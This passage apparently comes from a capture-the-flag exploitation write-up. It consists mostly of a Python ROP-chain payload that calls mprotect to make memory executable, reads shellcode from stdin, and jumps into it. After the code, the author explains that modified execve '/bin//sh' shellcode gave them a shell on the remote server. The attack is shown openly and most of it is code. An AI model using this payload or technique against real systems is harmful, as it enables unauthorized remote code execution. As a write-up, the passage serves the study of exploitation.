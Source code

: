 ```python
def p(x):
	return struct.pack("<L", x)
	
payload = ""

# seed value
payload += "0347\n"

# overflow buffer
payload += "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# eax = syscall_mprotect
payload += p(BASE + popeax)
payload += p(125)
# pointer to memory region in ebx
payload += p(BASE + popebx)
payload += p(BASE)
# memory flags PROT_READ | PROT_WRITE | PROT_EXEC
payload += p(BASE + popedx)
payload += p(7)
# length in ecx, needs to be multiple of 2
payload += p(BASE + popecx)
payload += p(0x1000)
# call syscall int 0x80
payload += p(BASE + int80h)

# eax = syscall_read
payload += p(BASE + popeax)
payload += p(3)
# ecx = ptr to BASE
payload += p(BASE + popecx)
payload += p(BASE)
# ebx = fd = stdin
payload += p(BASE + popebx)
payload += p(0)
# edx = size of shellcode (set to 100)
payload += p(BASE + popedx)
payload += p(100)
# call syscall int 0x80
payload += p(BASE + int80h)

# return to 0xf000000
payload += p(BASE + popedx + 1)
payload += p(BASE)

print payload
time.sleep(3)
```

Now, this was used with [a slightly modified shellcode](http://shell-storm.org/shellcode/files/shellcode-547.php). This shellcode uses `execve` to run `/bin/ash`; I changed it to run `/bin//sh`. The shellcode has to be supplied seperately on the command line; I could not get the exploit to work if the shellcode was printed from `ropsploit.py`. The following landed us a shell on the remote server (again, using `cat` to keep the shell alive):
